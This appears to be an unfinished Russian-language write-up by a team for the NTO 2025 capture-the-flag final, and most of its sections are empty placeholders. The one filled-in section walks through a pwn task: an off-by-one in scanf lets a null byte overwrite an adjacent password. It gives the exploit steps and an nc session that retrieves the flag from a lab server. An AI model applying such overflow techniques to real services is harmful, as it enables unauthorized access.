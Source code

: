 # Райтап на финал иб нто 2025 от команды While_hot_false
## Состав
* Walter White
* eogod
* Kolya080808
* kvasilek
## Задачи с коротким ответом

## Web
## Pwn 1
Из функции write_file() : \
```
  printf("Enter file content: ");
  __isoc99_scanf("%256s", file_buffer);
  flush();
  file = open(path, 65, 0, v0, v1, v2);
```
При этом file buffer сам размером 256 байт, а после него лежит secret password:
```
.bss:0000000000004120 file_buffer     db 100h dup(?)          ; DATA XREF: init_storage+70↑o
.bss:0000000000004120                                         ; init_storage+A8↑o ...
.bss:0000000000004220                 public secret_password
.bss:0000000000004220 ; char secret_password[32]
.bss:0000000000004220 secret_password db 20h dup(?)   
```
scanf("%256s", file_buffer) записывает максимум 256 байт + 1 ноль байт, который попадёт уже в secret_pasword. В итоге пароль начинается с 0x00, то есть по факту пустая строка. \
Решение: \
* Записываем в файл 256 букв \
* Запрашиваем чтение 00000000 и при запросе пароля просто нажимаем enter \
* Получаем флаг
```
nc 10.10.11.101 9001
                    
            +++++++                )                           
          +++      ++           ( /(   (     )           (     
   ++++++++         ++++        )\()) ))   (     `  )   )\ )  
  ++                   +++     (_))/ /((_)  )\  ' /(/(  (()/(  
 ++          ++          ++    | |_ (_))  _((_)) ((_)_\  )(_)) 
 ++        ++++++.       ++    |  _|/ -_)| '  \()| '_ \)| || | 
  +++        ++        +++      \__|\___||_|_|_| | .__/  \_, | 
    :+++++++ ++  +++++++                         |_|     |__/  
             ++                                  
             ++                                  
    finally, service for reading and             
                writng your OWN temporary files! 


Commands:
        1. Read file
        2. Write file
>> 2
Enter file content: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Your file ID: 0a09d600

Commands:
        1. Read file
        2. Write file
>> 1
Enter file ID: 00000000
Opa, give me password: 
File contains: nto{sup3r_s3cr3t_c0nf1d3ntial_fl4g}
Commands:
        1. Read file
        2. Write file
>> 

```
### Касса
перенос строк через \ кстати делается \
перенос строк через \ кстати делается
## Infra

### Confluence
всем респект
### NAS
да таск халява
### NAS2
коля респект
### Сервер печати

## Задачи с защитой
## Горшочек
текст решения \
перенос строк через \ кстати делается

## Linux


## Markdown 
[Как пользоваться](https://github.com/adam-p/markdown-here/wiki/markdown-cheatsheet#lists)

